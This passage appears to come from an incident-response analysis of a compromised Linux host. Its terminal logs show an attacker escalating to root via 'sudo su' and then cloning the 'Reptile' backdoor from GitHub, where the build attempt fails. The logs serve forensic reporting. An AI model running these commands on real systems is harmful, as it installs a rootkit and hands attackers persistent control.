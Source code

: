 ```bash
    (ALL : ALL) ALL
jenny@wir3:/$ sudo su
sudo su
root@wir3:/# whoami
whoami
root
```

Finally, at 17:27:41.745833112 the TA downloads and installs a backdoor called "Reptile":

```bash
root@wir3:/# cd
cd
root@wir3:~# git clone https://github.com/f0rb1dd3n/Reptile.git
git clone https://github.com/f0rb1dd3n/Reptile.git
Cloning into 'Reptile'...
remote: Enumerating objects: 217, done..[K

---------------truncated---------------

Resolving deltas: 100% (499/499), done.
root@wir3:~# cd Reptile
cd Reptile
root@wir3:~/Reptile# ls -la
ls -la
total 44
drwxr-xr-x 7 root root 4096 Feb  1 22:27 .
drwx------ 4 root root 4096 Feb  1 22:27 ..
drwxr-xr-x 2 root root 4096 Feb  1 22:27 configs
drwxr-xr-x 8 root root 4096 Feb  1 22:27 .git
-rw-r--r-- 1 root root    8 Feb  1 22:27 .gitignore
-rw-r--r-- 1 root root 1922 Feb  1 22:27 Kconfig
drwxr-xr-x 7 root root 4096 Feb  1 22:27 kernel
-rw-r--r-- 1 root root 1852 Feb  1 22:27 Makefile
-rw-r--r-- 1 root root 2183 Feb  1 22:27 README.md
drwxr-xr-x 4 root root 4096 Feb  1 22:27 scripts
drwxr-xr-x 6 root root 4096 Feb  1 22:27 userland
root@wir3:~/Reptile# make
make
make[1]: Entering directory '/root/Reptile/userland'
Makefile:10: ../.config: No such file or directory
make[1]: *** No rule to make target '../.config'.  Stop.
make[1]: Leaving directory '/root/Reptile/userland'
Makefile:56: recipe for target 'userland_bin' failed
make: *** [userland_bin] Error 2
root@wir3:~/Reptile# 
```